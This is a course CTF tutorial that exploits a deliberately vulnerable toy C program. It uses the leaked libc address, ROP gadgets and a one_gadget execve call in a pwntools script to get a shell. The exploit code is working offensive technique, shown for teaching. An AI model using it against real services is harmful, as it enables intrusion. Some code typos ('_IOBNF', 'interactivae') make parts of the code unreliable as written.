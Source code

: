 ```yaml
---
title: Simple PWN - 0x08(one_gadget with ROP)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x08(one_gadget with ROP)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

## one_gadget background
[Day25: [Misc] 我從來沒想過我會害怕寫 code](https://ithelp.ithome.com.tw/articles/10226977)
> 原理是在 `glibc` 裡面有很多會透過 `execve` 執行 `/bin/sh`、再調用外部系統指令的 assembly，當 explolit 已經得知 `libc` 的位之後而且可以控制 RIP 之後，就可以直接跳該位置達成 shell out，不需要再辛苦堆 stack 上的參數

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IOBNF, 0);

    char s[0x10];

    printf("Your libc: %p", printf);
    read(0, s, 0x100);

    return 0;
}
```
* The program has buffer overflow, however it has no backdoor method can access and has no global variable can write shellcode. Thus, we can consider to use `ROP` to get shell.
* Note that, it must be a dynamic library, so DO NOT use `-static` to compile it.
    ```bash!
    gcc -o one_gadget_with_rop one_gadget_with_rop.c -no-pie -fno-stack-protector -z norelro -zexecstack
    ```

## Exploit
* First, we use [<font color="FF0000">`ldd`</font>](https://shengyu7697.github.io/linux-ldd/) command to find what library the program will use.
    ![](https://imgur.com/ycRb8Tv.png)
* In addition, we use `one_gadget` command to find `execvs`
    * Note that, how to use it can refer to [one_gadget用法](https://blog.csdn.net/weixin_43092232/article/details/105085880)
    * We use `0xebcf8 execve("/bin/sh", rsi, rdx)` as our method
    ![](https://imgur.com/Y7BBH5J.png)
        * <font color="FF0000">Note:</font> it has 3 constraint so that we can get the shell
        ```bash!
        address rbp-0x78 is writable
        [rsi] == NULL || rsi == NULL
        [rdx] == NULL || rdx == NULL
        ```
* Then, we use `one_gadget` command to get `ROP` chain
    ```bash!
    ROPgadget --binary one_gadget_with_rop --only "pop|ret" > one_gadget
    vim one_gadget
    ```
    You can see that because we didn't compile with library, the gadget that we may can use is very few.
    ![](https://imgur.com/DuGINHL.png)
    The solution is using the gadget that `libc` have:
    ```bash!
    $ ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" > one_gadget
    $ vim one_gadget
    ```
    We must satisfied one_gadget constraint. `0x90529` and `0x2be51` are the offset of `/lib/x86_64-linux-gnu/libc.so.6`. Therefore, if we want to call these gadget, <font color="FF0000">we must find out the real base address of `/lib/x86_64-linux-gnu/libc.so.6`</font>.
    ![](https://imgur.com/3h5PqcO.png)
    ![](https://imgur.com/Z2bBbhJ.png)
* Because, `ASLR` is turn on in default, so the address of library will be random, we just know the offset of library. In original code, it told us the `printf` address in `/lib/x86_64-linux-gnu/libc.so.6` → <font color="FF0000">`0x7ffff7def770`</font>
    ![](https://imgur.com/nuYGx24.png)
    Used `gdb` can find the current address of library → <font color="FF0000">`0x7ffff7d8f000`</font>
    ![](https://imgur.com/Et3r2hI.png)
    Then we can know the offset and construct apart of payload as below 
    $$0x7ffff7def770 - 0x7ffff7d8f000 = 0x60770$$
    ```python!=
    from pwn import *
    import sys

    context.arch = 'amd64'

    r = process('./one_gadget_with_rop')

    r.recvuntil("Your libc: ")
    libc = int(r.recv(14), 16) - 0x60770
    info(f"libc: {hex(libc)}")
    ```
* And prepare our gadget:
    ```python!=11
    pop_rdx_rbx_ret = libc + 0x90529
    pop_rsi_ret = libc + 0x2be51
    ```
* Construct whole payload with considering the constraint:
    ```python!=13
    r.send(b'a'*0x10 + p64(0x404000) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0) + p64(libc+0xebcf8))
    r.interactivae()
    ```
    * `b'a'*0x10` is for `$rsi`
    * `p64(0x404000)` is an arbitrary writable and readable address for `$rbp-0x78` one of the constraint of one_gadget
    * `p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0)` is what we did in [last lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/rki3GF0cs) of `ROP`
    * `p64(libc+0xebcf8)` is the one_gadget that we choose at the beginning.
* Finally, we got shell!!!
    ![](https://imgur.com/iIETaBy.png)


## Reference
[Linux ldd 查看執行檔執行時需要哪些 library](https://shengyu7697.github.io/linux-ldd/)
[Pwn week1](https://youtu.be/ktoVQB99Gj4)